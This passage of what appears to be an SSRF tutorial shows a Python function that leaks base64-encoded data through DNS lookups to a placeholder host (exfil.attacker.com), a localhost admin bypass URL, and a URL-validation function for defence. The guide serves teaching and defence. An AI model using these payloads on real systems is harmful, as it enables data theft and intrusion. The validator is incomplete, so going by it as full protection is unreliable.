 ```python
# Example of data exfiltration via DNS
def exfiltrate_via_dns(data):
    encoded_data = base64.b64encode(data.encode()).decode()
    chunks = [encoded_data[i:i+30] for i in range(0, len(encoded_data), 30)]
    
    for i, chunk in enumerate(chunks):
        dns_query = f"{i}-{chunk}.exfil.attacker.com"
        requests.get(
            "https://vulnerable-app.com/fetch",
            params={"url": f"http://{dns_query}/"}
        )
```

### Access Control Bypass

SSRF can bypass network-level restrictions:

```
# Access admin interface only available to localhost
https://vulnerable-app.com/fetch?url=http://localhost:8080/admin
```

## Defending Against SSRF

### Input Validation Practices

Implement strict input validation:

```python
# Python example of URL validation
import re
import urllib.parse

def is_safe_url(url):
    # Parse the URL
    parsed = urllib.parse.urlparse(url)
    
    # Validate scheme
    if parsed.scheme not in ['http', 'https']:
        return False
    
    # Validate hostname - no internal IPs
    hostname = parsed.netloc.split(':')[0]
    if hostname in ['localhost', '127.0.0.1'] or hostname.startswith('192.168.') or hostname.startswith('10.'):
        return False
    
    # Validate against IP address pattern
    ip_pattern = r'^(\d{1,3})\.(\d{1,3})\.(\d{1,3})\.(\d{1,3})$'
    ip_match = re.match(ip_pattern, hostname)
    if ip_match:
        # Check for private IP ranges
        octets = [int(octet) for octet in ip_match.groups()]
        if (octets[0] == 127 or
            octets[0] == 10 or
            (octets[0] == 172 and 16 <= octets[1] <= 31) or
            (octets[0] == 192 and octets[1] == 168)):
            return False
    
    return True
```

